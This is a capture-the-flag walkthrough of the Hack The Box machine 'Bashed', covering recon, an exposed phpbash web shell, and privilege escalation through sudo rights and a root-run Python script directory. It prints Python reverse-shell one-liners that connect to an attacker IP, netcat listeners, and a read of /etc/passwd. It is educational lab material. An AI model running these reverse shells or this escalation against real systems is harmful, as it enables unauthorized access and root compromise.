 # Bashed [HTB](https://app.hackthebox.com/machines/Bashed)
![bashed-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/bashed-01.png)


## Recon

I start by adding the target to my `/etc/hosts` file.

Then i fire off `nmap` to scan it:

```bash
nmap -sC -sV -A -p- bashed.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/nmap-res-02.png)


We have the following:

+ An Apache server on port 80. 


Lets see what this site has to offer. 


## Apache port 80


Lets open our browser and navigate towards the target site at `http://bashed.htb`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/site-03.png)


The site talks about different tools developed for pentesting, at the moment we only see the `phpbash` 
tool with a valid link. Lets check it out:

![phpbash-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/phpbash-04.png)


If we click on the [Github link](https://github.com/Arrexel/phpbash) we will be brought to the following 
page:

![github-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/github-05.png)

Sounds useful, lets see how to use this tool:

![usage-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/usage-06.png)

Accourding to the instructions, we need to upload the tool to the target server and access it through the URL to get a web-shell. However, the target site said that this tool was developed on the same machine,
so this `phpbash` should be somewhere on the server, lets try and find it. 

I use `ffuf` for directory busting:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-big.txt -u http://bashed.htb/FUZZ
```

![dev-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/dev-07.png)

This `dev` directory looks promising, lets check it out:

![dev-dir-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/dev-dr-08.png)

Here it is, if we click it we get access to the system:

![shell-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/shell-09.png)

Lets try to elavate our privileges. 


## Privilege Escalation

If we take a look at the `/etc/passwd` file:

```bash
cat /etc/passwd
```

![passwd-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/passwd-10.png)

We can see we have two valid user accounts on the system that are not service accounts. Now if we take a 
look at the `sudo` permissions with:

```bash
sudo -l
```

![sudo-privs-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/sudo-privs-11.png)


As you can see, the `www-data` user can run any command without a password as the `scriptmanager` user.
So we can pop a shell as `scriptmanager` fairly easily with sudo, but first, we need an actual TTY shell, 
not a web shell. 

We can use a one liner revese shell, but first lets setup the listener with:

```bash
rlwrap nc -lnvp 443
```

Then we can use Python for the reverse shell:

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

![tty-shell-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/tty-shell12.png)

Now we can switch to the `scriptmanager` user by running:

```bash
sudo -u scriptmanager /bin/bash
```

![switch-user-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/switch-user-13.png)

If we go to the root directory and run `ls` we can see something unusual:

![scripts-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/scripts-14.png)


If we `cd` into this directory and run `ls -l` inside we can see the following:

![scripts-ll-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/scripts-ll-15.png)


We have a python script, owned by our user, and a `test.txt` file owned by root. Lets take a look at the python script:

![py-script-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/py-script-16.png)

The script simply creates a file called `test.txt` and writes `testing 123!` to it. This is the file owned by root we saw previously. The fact that this file is owned by root tells me there is a task running periodically in the background as root, executing this `test.py` script. 

We can verify this with [pspy64](https://github.com/DominicBreuker/pspy):

![task-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/task-17.png)


This is bad, we have a task running as root, executing files ending with a `.py` extension, found in a directory owned by a low-privileged user. Escalation in this scenario is fairly trivial, since we can execute
any command we want as root, through these python scripts.

All we need to do is paste a one-liner Python reverse shell into a file in the `/scripts` directory:

```bash
echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' >> pwned.py
```

Setup a listener:

```bash
rlwrap cn -lnvp 9001
```

And we should get a shell as root:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/root-18.png)
